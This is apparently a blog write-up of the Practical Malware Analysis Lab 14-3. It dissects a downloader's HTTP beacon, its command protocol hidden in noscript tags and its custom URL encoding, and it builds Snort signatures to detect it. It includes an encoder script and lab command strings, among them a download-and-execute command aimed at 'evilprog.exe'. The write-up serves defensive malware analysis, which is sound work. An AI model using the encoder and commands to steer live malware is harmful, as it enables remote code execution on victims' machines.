




This post is part of the series of [Practical Malware Analysis Exercises.](../index.md)

## 1) What hard-coded elements are used in the initial beacon? What elements, if any, would make a good signature?


Hard-coded elements are the HTTP headers for User-Agent, Accept, Accept-Language, UA-CPU and Accept-Encoding. The initial URL is also hard-coded.

The UA-CPU header is fairly unique, and would make a good signature. The User-Agent header is distinct enough to be included in the signature. The Accept, Accept-Language, and Accept-Encoding HTTP headers are very generic, but could be included in a signature since they are hard-coded.

Output from strings:

```text
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)
 Accept: */*
 Accept-Language: en-US
 UA-CPU: x86
 Accept-Encoding: gzip, deflate
```

<!--more-->


## 2) What elements of the initial beacon may not be conducive to a long-lasting signature?

The host and page should not be included in long-lasting signatures, because this malware has built-in functionality to update the URL.


## 3) How does the malware obtain commands? What example from the chapter used a similar methodology? What are the advantages of this technique?


The malware requests a URL located in the file `C:\autobat.exe` and parses the responding HTML body for commands, located after a `<noscript>` tag and before the `96'` delimiter.

The example on page 311 hid a command within an HTML comment, prefixed by `adsrv?`

The biggest advantage of this technique is stealth. Encoded commands hidden within application data are difficult to detect, especially if the application data is legitamate. Another advantage of this technique is that an attacker can easily change the HTML body on the server side, to run new programs and update the malware. Also, the URL can be easily updated on the client side, so the attacker can change servers and command pages.


## 4) When the malware receives input, what checks are performed on the input to determine whether it is a valid command? How does the attacker hide the list of commands the malware is searching for?


The malware looks in the HTML body for:
	
- `<noscript>` tag.
- Host from the `C:\autobat.exe` file
- `96'` end marker.

The structure of a valid command to this malware looks like this:

```html
<em><noscript></em> <em>http://</em> host / cmdbyte filler1 / argument / filler2 <em>96'</em> filler3
```

The commands are hidden during transmission by being a single byte, the first character of the path in the URL. Anything can follow the first byte in the command, making it look innocent and varied. An argument is sent as the second directory in the URL path.

Within the executable, the check for the `<noscript>` tag character sequence is out of order, hindering string analysis and forcing the analyst to manually reconstruct the string. Fortunately, the string is short.





## 5) What type of encoding is used for command arguments? How is it different from Base64, and what advantages or disadvantages does it offer?

The arguments for downloading files and updating the URL are encoded with a custom algorithm. Arguments received from the command server must be an even number of ASCII characters.

A series of two digit ASCII numbers are translated to their integer representations with a call to [`atoi()`](http://msdn.microsoft.com/en-us/library/yd5xkb5c.aspx), then used as an index to character string to retreive the decoded character. The 39 byte index string is `/abcdefghijklmnopqrstuvwxyz0123456789:.` at 4070D8. To encode anything other than `/` requires two ASCII digits, like `01` for `a`.

This algorithm is different from Base64 in the following ways:

- It is non-standard.
- The index string represents the decoded character, instead of the encoded character.
- Encoded strings can only have a character set of 10 (ASCII numbers), instead of the 64 characters allowed by Base64.
- Encoded strings are doubled in size, instead of increased by one third.
- Only the URL character set can be represented, instead of any arbitrary data like in Base64.

An advantage of the encoding is that since it is custom, it lacks standard libraries and requires more work on the part of the analyst. A disadvantage is that the encoding is incredibly simple. The call to `atoi()` is a giveaway, especially after some time in a debugger. Only enough characters for constructing URLs are represented, so the algorithm can't be used for other purposes like binary data. Finally, the argument structure is limited in size, character set, location, and is therefore a good target for signatures.

A python script was created for encoding strings using this algorithm.

```python
import sys


index = &quot;/abcdefghijklmnopqrstuvwxyz0123456789:.&quot;
ptxt = sys.argv[1]
ctxt = &quot;&quot;

for byte in ptxt:
    ctxt += &quot;{0:02d}&quot;.format(index.find(byte))

print ctxt
```

Used it to encode a URL pointing to an arbitrary program.

```powershell
Q:\>Lab14-03_encode.py "http://www.practicalmalwareanalysis.com/evilprog.exe"
08202016370000232323381618010320090301121301122301180501140112251909193803151300052209121618150738052405
```


On a Linux VM the generated string was placed in inetsim's fake HTML file (`/var/lib/inetsim/http/fakefiles/sample.html`) with the proper structure for testing. The first directory in the path (`dir`) has the first character `d` which is the command to download and run a file.

```html  
<noscript>https://www.practicalmalwareanalysis.com/dir/08202016370000232323381618010320090301121301122301180501140112251909193803151300052209121618150738052405/96'.htm</noscript>
```


Tested out the program with a breakpoint just after the call to [`URLDownloadToCacheFile()`](http://msdn.microsoft.com/en-us/library/ie/ms775122%28v=vs.85%29.aspx) at 4015A7.


Wireshark confirmed that the file was requested.


Finally, the inetsim dummy EXE was downloaded and executed. Success.





It is worth noting that non-numerical ASCII digits passed to `atoi()` will return 0, and be decoded as `/`. In this way, the attacker can include random pairs of ASCII characters for each backslash in the argument, making signature development harder.


## 6) What commands are available to this malware?

`d` = Download and execute a file from specified URL.
`r` = Redirect the command URL, located in `C:\Autobat.exe`.
`s` = Sleep. Defaults to 20s, but accepts an argument.
`n` = Exit.

The command byte is used as an index to jump table of cases in a switch statement at 40173E. There are 16 elements, most of which do nothing. Four indices jump to actual commands: 0-3.


The command byte is subtracted by 100, and the result must be between 0 and 15 inclusive. That means that valid command bytes are between 100-115, in ASCII that's `d`-`s`. Here is a table of characters translated to the switch cases that carry out commands.

```text
'd' = 100 -> 0  = table[0]  = command 0
'e' = 101 -> 1  = table[1]  = command 4
'f' = 102 -> 2  = table[2]  = command 4
'g' = 103 -> 3  = table[3]  = command 4
'h' = 104 -> 4  = table[4]  = command 4
'i' = 105 -> 5  = table[5]  = command 4
'j' = 106 -> 6  = table[6]  = command 4
'k' = 107 -> 7  = table[7]  = command 4
'l' = 108 -> 8  = table[8]  = command 4
'm' = 109 -> 9  = table[9]  = command 4
'n' = 110 -> 10 = table[10] = command 1
'o' = 111 -> 11 = table[11] = command 4
'p' = 112 -> 12 = table[12] = command 4
'q' = 113 -> 13 = table[13] = command 4
'r' = 114 -> 14 = table[14] = command 2
's' = 115 -> 15 = table[15] = command 3
```

Ultimately, this is what is comes down to:

```text
'd' = command 0 (case 0)
'n' = command 1 (case 10)
'r' = command 2 (case 14)
's' = command 3 (case 15)
```


## 7) What is the purpose of this malware?


This malware is a downloader with better features than the one from 14-1. It can change the command server and the file to be downloaded. The sample continuously looks for updates and uses custom encoding and data parsing to slow down analysis.


## 8) This chapter introduced the idea of targeting different areas of code with independent signatures (where possible) in order to add resiliency to network indicators. What are some distinct areas of code or configuration data that can be targeted by network signatures?


Areas that can be targeted by network signatures include the initial beacon, hardcoded HTTP headers, dupicate User-Agent header, and the structure of the command in the HTML response body.

There didn't appear to be anything wrong with the HTTP headers in the strings output, and at first glance the HTTP headers looked normal in the packet capture. But, the HTTP GET request had an irregular User-Agent header:


The InternetOpen function takes a User-Agent value, and prepends that data with the string `User-Agent:`. The samples's call to [`InternetOpen()`](http://msdn.microsoft.com/en-us/library/windows/desktop/aa385096%28v=vs.85%29.aspx) at 401253 passes the string `User-Agent:` along with the other headers, so the sent packet reads`User-Agent: User-Agent:`which is a good signature.


## 9) What set of signatures should be used for this malware?


I created a set of 5 signatures for this sample: Client beacons and server commands for download, redirect, sleep, and exit.


### Client Beacons


The hard coded HTTP headers were included because they are unlikely to change and, with the double `User-Agent:`, are quite distinct.

```text
#Client beacon.
 alert tcp $HOME_NET 1024: -> $EXTERNAL_NET $HTTP_PORTS \
 (msg:"PMA Lab 14.3 - Client Beacon"; flow:from_client; \
 content:"GET"; http_method; \
 content:"Accept: */*|0d0a|"; http_header; \
 content:"Accept-Language: en-US|0d0a|"; http_header; \
 content:"UA-CPU: x86|0d0a|"; http_header; \
 content:"Accept-Encoding: gzip, deflate|0d0a|"; http_header; \
 content:"User-Agent: User-Agent: Mozilla/4.0 (compatible\; MSIE 7.0\; Windows NT 5.1\; .NET CLR 3.0.4506.2152\; .NET CLR 3.5.30729)"; http_header; \
 sid:100000001;)
```

### Server Commands

The server commands were a bit trickier. The signatures each consist of a single regex search in the HTTP response body.

The exit command was easiest, since it only requires `n` as the first byte, and has no arguments.

```text
#Server Command: Exit
alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET 1024: \
(msg:"PMA Lab 14.3 - Exit Command"; flow:from_server; \
file_data; pcre:"/(<noscript>)(http:\/\/)(([a-z0-9])+\.)+([a-z0-9]+){1}\/n.*96\'/"; \
sid:100000003;)
```

The first part of the regex looks for the hardcoded `<noscript>` strings, followed by a regular expression for a URL:

```regex
(<noscript>)(http:\/\/)(([a-z0-9])+\.)+([a-z0-9]+){1}
```

Next, the command byte string `/n` followed by any string of any size.

```text
\/n.*
```

Finally, the terminating `96\'` string, marking the end of the malware's command.

```text
96\'
```

The sleep command signature is very similar to the exit signature.

```snort
#Server Command: Sleep
alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET 1024: \
(msg:"PMA Lab 14.3 - Sleep Command"; flow:from_server; \
file_data; pcre:"/(<noscript>)(http:\/\/)(([a-z0-9])+\.)+([a-z0-9]+){1}\/s.*\/([0-9][0-9])+.*96\'/"; \
sid:100000004;)
```

The command sends only a single numerical argument. Anything other than ASCII digits being passed to `atoi()` returns 0, so only ASCII digits are looked for in the argument regex.

```regex    
\/([0-9][0-9])+
```

The download and redirect command signatures are identical to the sleep signature, except they both take encoded URL arguments.

```snort
#Server Command: Download
alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET 1024: \
(msg:"PMA Lab 14.3 - Download Command"; flow:from_server; \
file_data; pcre:"/(<noscript>)(http:\/\/)(([a-z0-9])+\.)+([a-z0-9]+){1}\/d.*\/(0820201637)([0a-zA-Z[:punct:]]{2}){2}(([0-3][0-9])+38)+([0-3][0-9])+.*96\'/"; \
sid:100000005;)
    
#Server Command: Redirect
alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET 1024: \
(msg:"PMA Lab 14.3 - Redirect Command"; flow:from_server; \
file_data; pcre:"/(<noscript>)(http:\/\/)(([a-z0-9])+\.)+([a-z0-9]+){1}\/r.*\/(0820201637)([0a-zA-Z[:punct:]]{2}){2}(([0-3][0-9])+38)+([0-3][0-9])+.*96\'/"; \
sid:100000006;)
```

The regular expression for the command argument takes into account URL regularities. First it matches the encoding for `http:`

```regex
\/(0820201637)
```

Then the different possible encodings of `//`

```text
([0a-zA-Z[:punct:]]{2}){2}
```

Finally, an encoded URL which can consist of ASCII numbers `01` - `37` for a-z and 0-9, with `38` as the `.` delimiter for subdomains.

```regex
(([0-3][0-9])+38)+([0-3][0-9])+
```

The rest of the post is testing the Snort rules, and the results.


### Exit Command Test


String placed in inetsim's test HTML file to be served:

```html
<noscript>http://www.practicalmalwareanalysis.com/nfna9ep8no{}|}{|{}340w294-0/08202016370A|\23232338052209120415130109143803151300190113053808201396'.htm</noscript>
```

Immunity breakpoint at 4016F7


Snort alert:


### Sleep Command Test


String placed in inetsim's test HTML file to be served

```html
<noscript>http://www.practicalmalwareanalysis.com/sfna9ep8no{}|}{|{}340w294-0/08/202016370A|\23232338052209120415130109143803151300190113053808201396'.htm</noscript>
```

Immunity breakpoint at 401700


Decoded sleep parameter is 8000ms.


Snort alert:





### Download Command Test


String placed in inetsim's test HTML file to be served

```html
<noscript>http://www.practicalmalwareanalysis.com/dfna9ep8no{}|}{|{}340w294-0/08202016370A|\23232338052209120415130109143803151300190113053808201396'.htm</noscript>
```

Immunity breakpoint at 4016E9


Decoded URL


Snort alert:


### Redirect Command Test


String placed in inetsim's test HTML file to be served

```html
<noscript>http://www.practicalmalwareanalysis.com/rfna9ep8no{}|}{|{}340w294-0/08202016370A|\23232338052209120415130109143803151300190113053808201396'.htm</noscript>
```

Immunity breakpoint at 40170E


Snort alert:





## The 5 snort signatures for PMA Lab14.3:

```snort
#Client beacon.
 alert tcp $HOME_NET 1024: -> $EXTERNAL_NET $HTTP_PORTS \
 (msg:"PMA Lab 14.3 - Client Beacon"; flow:from_client; \
 content:"GET"; http_method; \
 content:"Accept: */*|0d0a|"; http_header; \
 content:"Accept-Language: en-US|0d0a|"; http_header; \
 content:"UA-CPU: x86|0d0a|"; http_header; \
 content:"Accept-Encoding: gzip, deflate|0d0a|"; http_header; \
 content:"User-Agent: User-Agent: Mozilla/4.0 (compatible\; MSIE 7.0\; Windows NT 5.1\; .NET CLR 3.0.4506.2152\; .NET CLR 3.5.30729)"; http_header; \
 sid:100000001;)

#Server Command: Exit
 alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET 1024: \
 (msg:"PMA Lab 14.3 - Exit Command"; flow:from_server; \
 file_data; pcre:"/(<noscript>)(http:\/\/)(([a-z0-9])+\.)+([a-z0-9]+){1}\/n.*96\'/"; \
 sid:100000003;)

#Server Command: Sleep
 alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET 1024: \
 (msg:"PMA Lab 14.3 - Sleep Command"; flow:from_server; \
 file_data; pcre:"/(<noscript>)(http:\/\/)(([a-z0-9])+\.)+([a-z0-9]+){1}\/s.*\/([0-9][0-9])+.*96\'/"; \
 sid:100000004;)

#Server Command: Download
 alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET 1024: \
 (msg:"PMA Lab 14.3 - Download Command"; flow:from_server; \
 file_data; pcre:"/(<noscript>)(http:\/\/)(([a-z0-9])+\.)+([a-z0-9]+){1}\/d.*\/(0820201637)([0a-zA-Z[:punct:]]{2}){2}(([0-3][0-9])+38)+([0-3][0-9])+.*96\'/"; \
 sid:100000005;)

#Server Command: Redirect
 alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET 1024: \
 (msg:"PMA Lab 14.3 - Redirect Command"; flow:from_server; \
 file_data; pcre:"/(<noscript>)(http:\/\/)(([a-z0-9])+\.)+([a-z0-9]+){1}\/r.*\/(0820201637)([0a-zA-Z[:punct:]]{2}){2}(([0-3][0-9])+38)+([0-3][0-9])+.*96\'/"; \
 sid:100000006;)
```
